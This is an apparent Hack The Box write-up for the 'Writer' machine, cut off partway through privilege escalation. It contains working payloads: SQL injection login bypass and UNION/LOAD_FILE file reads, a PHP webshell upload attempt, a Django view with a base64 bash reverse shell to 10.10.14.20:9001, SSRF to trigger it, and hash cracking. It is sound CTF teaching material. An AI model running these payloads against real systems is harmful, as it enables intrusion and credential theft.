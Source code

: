 I'll start with a port scan using my alias `fscan` which launches a default script and version scan against the ports found from a full port scan.

<img src='Images/fscan.png'>

We see ssh on port 22, apache serving a website on port 80 and samba on 139/445. I'll quickly see what I can do over smb.

<img src='Images/smbmap.png'>

I don't have any access here. I'll revisit if I find some credentials.

<img src='Images/gobuster.png'>

Gobuster finds a directory called `administrative`. It leads to a login page:

<img src='Images/administrative.png'>

I'll test for SQL injection with the payload `admin'-- -`. This logs me in. I suspect the query is along the lines of 

`select * from users where username={username} and password=md5({password})`

so my injection malforms the query into

`select * from users where username=admin` 

which authenticates me as the admin user. I'll come back and examine the injection further if need be.

I get redirected to `/dashboard`.

<img src='Images/dashboard.png'>

clicking around I find a `/stories` directory.

<img src='Images/stories.png'>

It has the option to upload a `.jpg` file from the local computer or from a url. 

<img src='Images/storiesadd.png'>

I'll upload a `jpg` and intercept the request in burpsuite. I'll append `.php` to the filename, change the mimetype to `application/x-php` and append a simple command injection payload after the magic bytes.

<img src='Images/bugmodified.png'>

I can see the file has sucessfuly upload to the `/static/img` folder. 

<img src='Images/staticimg.png'>

Visiting the url `static/img/bug.jpg.php?cmd=id` returns an error however. It seems the webpage isn't configured to execute `php` despite the extension.

<img src='Images/fail.png'>

I'll revisit the sql injection to see what I can do here. I know the username parameter is injectable. I'll try the payload `test' union select 1,2,3,4,5,6` for the username and a random password. Intercepting the response in burpsuite I see `2` gets reflected back onto the webpage as `welcome 2`

<img src='Images/union.png'>

Next I'll try changing the 2 for `LOAD_FILE('/etc/passwd')` and I see the contents of `/etc/passwd` are returned so I have LFI.

<img src='Images/loadfile.png'>

I'll create a quick python script to send the injection payload including the specified file as the first argument of the script to the login page, parse out the file contents and save the file. I'll use mysql's `TO_BASE64()` function to return the base64 encoded file to avoid HTML entity encoding in the response HTML.

<img src='Images/script.png'>

I'll check the website configuration by including the file `/etc/apache2/sites-enabled/000-default.conf`

<img src='Images/sites-enabled.png'>

It shows the root of the website is `/var/www/writer.htb` and there's a `.wsgi` file which I'll check out. It also points to a development site on port `8080` only accessible through localhost. If I can find an SSRF I could interact with this site.

<img src='Images/wsgi.png'>

There's a comment about an `__init__.py` file which I'll read next. The exact location of the file is a bit ambiguous as `from writer import app` could mean a file `writer.py` containing an `app` object, a parent directory `/writer` containing `app.py` or `writer/__init__.py` containing an `app` object, but trying the path `/var/www/writer.htb/__init__.py` works. This file leaks some credentials:

<img src='Images/__init__.png'>

From `/etc/passwd` I saw the user `kyle`. I'll try the credentials `kyle:ToughPasswordToCrack` against smb.

<img src='Images/authsmbmap.png'>

The credentials work and grant me read/write access to the `writer2_project` share. This is likely the development site only accessible from localhost on port `8080`. I'll use `smbclient //10.10.11.101/writer2_project -u kyle -p ToughPasswordToCrack` to access the share. This is interesting as I could write a payload into the share and if I can cause it to execute on the server I'll have RCE. Listing the contents of the share shows 

<img src='Images/writer_proj.png'>

`writer_web/urls.py` contains

```
from django.conf.urls import url
from writer_web import views

urlpatterns = [
    url(r'^$', views.home_page, name='home'),
]
```

The `r'^$'` matches an empty url resource path i.e. `http://127.0.0.1:8080/` and requesting this url will redirect to `/home` and load `views.home_page`. This file imports `views.py` which contains the `home_page` object

```
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```

so I can write a reverse shell into the `home_page` function and it will execute when I the site. Since this site isn't accessible externally I'll need an SSRF to trigger the payload. An SSRF is when you send a specially crafted request to a server and the server executes a request on your behalf. This allows access to functionality you can't directly obtain. Luckily, when we uploaded the `.jpg` files to the `/stories` directory there was an option to upload from a url. If we get the server to process a request to `127.0.0.1:8080` we'll be able to execute our payload.

I'll use the reverse shell `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.20/9001 0>&1"`, base64 encode it to avoid special characters and use `os.sytem()` to execute shell commands. All together `views.py` becomes

```
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('echo -n L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjAvOTAwMSAwPiYxIg== | base64 -d | bash')
    template_name = "index.html"
    return render(request,template_name)
```

I'll upload this to the share with 

`smb: \writer_web\> put views.py`

and start a listener on port `9001`.

On `/stories/add` I'll upload a file from url. I just put `http://google.com` as there's some client side filtering, but I'll intercept the request in burpsuite and modify the url there. I know from the source code the filename/url must contain `.jpg` so I'll put the `image_url` as `http://127.0.01:8080/?.jpg` which matches an empty url resource path as the `?.jpg` acts as a fake query parameter. An anchor `#.jpg` also works.

<img src='Images/ssrf.png'>

and on my listener I get a connection as `www-data`

<img src='Images/rev.png'>

In the current directory there's a file called `manage.py`. This file is automatically created in Django projects and is Django’s command-line utility for administrative tasks. Reading the documentation <a href="https://docs.djangoproject.com/en/4.1/ref/django-admin/#shell">here</a> shows you cann interact with the projects databases using the `dbshell` argument.

<img src='Images/dbshell.png'>

In the `auth_user` table we see a django password hash for kyle. Copying this to a file `hash` and running my alias `j hash`, it cracks as `marcoantonio`. This allows us to `su` to kyle.

<img src='Images/sukyle.png'>

We can see kyle is in the `filter` group



